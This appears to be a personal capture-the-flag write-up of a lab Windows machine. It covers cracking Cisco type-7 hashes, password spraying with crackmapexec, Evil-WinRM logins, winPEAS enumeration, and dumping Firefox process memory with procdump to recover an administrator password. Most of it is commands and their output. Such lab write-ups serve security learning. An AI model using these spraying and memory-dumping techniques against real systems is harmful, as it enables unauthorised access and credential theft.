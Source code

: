 Immeditaley checked web app and found basic configs in there for a cisco router 

```bash
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
```

Q4)sJu\Y8qz*A3?d

$uperP@ssword - decrypted using an online website

stalth1agent 

combining with the users there 

```bash
cme smb 10.129.96.157 -u users.txt -p passwords.txt --rid-brute
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
SMB         10.129.96.157   445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.129.96.157   445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)

```

of particular use may be the full username list in SMB from the —brute

```bash
Administrator 
Guest 
DefaultAccount 
WDAGUtilityAccount 
Hazard 
support 
Chase 
Jason 

```

entering this again through cme we get 

```bash

SupportDesk\Chase: Q4)sJu\Y8qz*A3?d 

meaning we have chase too

```

so 

```bash
hazard:stealth1agent
Chase: Q4)sJu\Y8qz*A3?d
Two combos lets see what we can do -
```

```bash
evil-winrm -i 10.129.96.157 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents>
```

user.txt

whoami /priv yields little

So i decided to run winpeas and found some interesting ones 

```powershell
Looking for Firefox DBs
È  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#browsers-history
    Firefox credentials file exists at C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default\key4.db
È Run SharpWeb (https://github.com/djhohnstein/SharpWeb)
```

So i tried sharpweb but couldnt pull any creds so i found online to use proc dump! 

```powershell
C:\Users\Chase> .\procdump64.exe -ma 7068 -accepteula firefox.dmp
```

The -ma denotes the PID process for firefox i found this through an online xcript

```powershell
Get-Process | Where-Object {$_.ProcessName -like "firefox*"} | Select-Object Id, ProcessName
```

investigating the file with the following we find creds

```powershell
strings firefox.dmp |grep -ie "login_username\|login_password"
"C:\Program Files\Mozilla Firefox\firefox.exe" localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

Clear admin creds and enter into evil winrm and!

```powershell
evil-winrm -i 10.129.96.157 -u administrator -p '4dD!5}x/re8]FBuZ'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

So, what lessons are learned… 

Well.. first off we had a nice refresher in basic password spraying so you get a list and you cme spray

```powershell
cme smb 10.129.96.157 -u users.txt -p passwords.txt --rid-brute
```

(Remember to run twice with any new users! We discovered user.txt this way)

For post exploit we use winpeas and discovered firefox key could be vulnerable and after trying the winpeas reccomended SharpWeb it didnt work BUT

```powershell
C:\Users\Chase> .\procdump64.exe -ma 7068 -accepteula firefox.dmp
```

Proc dump did!

Lesson learned : Check browser stuff ;)
